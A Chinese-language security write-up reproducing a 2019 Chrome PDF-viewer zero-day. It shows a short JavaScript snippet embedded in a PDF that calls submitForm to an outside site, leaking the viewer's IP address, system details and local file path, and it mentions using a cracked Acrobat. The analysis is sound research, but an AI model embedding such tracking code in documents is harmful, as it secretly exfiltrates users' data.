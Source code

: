 # 漏洞背景
EdgeSpot检测PDF`0DAY`样本，跟踪使用Google Chrome作为本地PDF查看器的用户,这些样本利用了Google Chrome零日漏洞。利用漏洞允许PDF文件的发件人在使用Google Chrome作为本地PDF查看器时跟踪用户并收集一些用户信息.

# 漏洞利用
## 漏洞时间线:

`````
2018.12.26查询报告给谷歌
2019.02.12在此期间检测到更多样本
2019.02.14与Chrome团队进行多次沟通后，我们被告知该问题将于4月底登陆官方Chrome。Chrome团队获悉此博客发布的消息
2019.02.26博客文章发布*
``````
而在博文中chrome目前是没有补丁的，因此漏洞环境就为最新版的chrome浏览器

这个漏洞是pdf允许插入javascript，是ADODE为了自定义化PDF格式，ACROBAT语法详情：

[pdf](https://www.pdfill.com/download/Acro6JSGuide.pdf)

其实这个问题在年前的时候最早是圈子的老哥提交ASRC，然后不通过，就给予了利用方式，当时的PDF事件.
比如KEY师傅的文章
[【周年庆征文】浅析PDF事件导致的安全漏洞](https://www.secquan.org/Discuss/1068248)


使用破解版的Adobe Acrobat Pro DC 2018(Windows)然后再编辑
![file](http://secquan.zzyuncheng.com/c3d332582df52dadffb3622a75a0b5b2.png-source)
```javascript

function wer()
{
    this.submitForm("https://www.secquan.org/");
}
wer();
function wer1()
```
![file](http://secquan.zzyuncheng.com/6d364fb14a0c208a3fe520541bbbbe8a.png-source)

然后在浏览器打开
![file](http://secquan.zzyuncheng.com/83bb658fce5213b90f35fa9004b0ee34.png-source)

本地查找流量找到
![file](http://secquan.zzyuncheng.com/17978c49f2ad9a0e0fd3131c57fe97e5.png-source)

在流量包可以看出此漏洞可能泄露下面敏感信息

* 用户的公共IP地址。
* 操作系统，Chrome版本等（在HTTP POST标题中）。
* 用户计算机上PDF文件的完整路径（在HTTP POST有效负载中）。
[Update and Research from EdgeSpot team: EdgeSpot detects PDF zero-day samples tracking users who use Google Chrome as local PDF viewer](https://blog.edgespot.io/2019/02/edgespot-detects-pdf-zero-day-samples.html?tdsourcetag=s_pctim_aiomsg)